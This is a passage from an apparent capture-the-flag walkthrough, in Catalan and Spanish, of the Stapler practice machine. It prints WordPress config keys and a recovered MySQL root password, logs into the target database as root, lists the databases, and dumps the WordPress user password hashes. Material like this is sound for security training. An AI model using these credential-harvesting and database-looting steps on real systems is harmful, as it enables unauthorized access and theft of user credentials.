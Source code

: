 ```bash
 */
define('AUTH_KEY',         'V 5p=[.Vds8~SX;>t)++Tt57U6{Xe`T|oW^eQ!mHr }]>9RX07W<sZ,I~`6Y5-T:');
define('SECURE_AUTH_KEY',  'vJZq=p.Ug,]:<-P#A|k-+:;JzV8*pZ|K/U*J][Nyvs+}&!/#>4#K7eFP5-av`n)2');
define('LOGGED_IN_KEY',    'ql-Vfg[?v6{ZR*+O)|Hf OpPWYfKX0Jmpl8zU<cr.wm?|jqZH:YMv;zu@tM7P:4o');
define('NONCE_KEY',        'j|V8J.~n}R2,mlU%?C8o2[~6Vo1{Gt+4mykbYH;HDAIj9TE?QQI!VW]]D`3i73xO');
define('AUTH_SALT',        'I{gDlDs`Z@.+/AdyzYw4%+<WsO-LDBHT}>}!||Xrf@1E6jJNV={p1?yMKYec*OI$');
define('SECURE_AUTH_SALT', '.HJmx^zb];5P}hM-uJ%^+9=0SBQEh[[*>#z+p>nVi10`XOUq (Zml~op3SG4OG_D');
define('LOGGED_IN_SALT',   '[Zz!)%R7/w37+:9L#.=hL:cyeMM2kTx&_nP4{D}n=y=FQt%zJw>c[a+;ppCzIkt;');
define('NONCE_SALT',       'tb(}BfgB7l!rhDVm{eK6^MSN-|o]S]]axl4TE_y+Fi5I-RxN/9xeTsK]#ga_9:hJ');
```

### Hem enumerat les credencials root del servidor MySQL. Ara ens podem connectar al servidor MySQL.

La contraseña para el usuario root de la base de datos en el archivo wp-config.php que proporcionaste es #plbkac. Esta es la contraseña que se utiliza para conectar WordPress a la base de datos MySQL, y debe mantenerse en secreto para asegurar la base de datos.

```bash
┌──(kali㉿kali)-[~/stapler]
└─$ mysql -u root -p -h 192.168.1.203 
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 66
Server version: 5.7.12-0ubuntu1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| loot               |
| mysql              |
| performance_schema |
| phpmyadmin         |
| proof              |
| sys                |
| wordpress          |
+--------------------+
8 rows in set (0.009 sec)

MySQL [(none)]> 
```

----------------------------------------
### Me conecto a la base de datos wordpress
```bash
MySQL [(none)]> use wordpress
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [wordpress]> SELECT user_login, user_pass FROM wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| John       | $P$B7889EMq/erHIuZapMB8GEizebcIy9. |
| Elly       | $P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0 |
| Peter      | $P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0 |
| barry      | $P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0 |
```
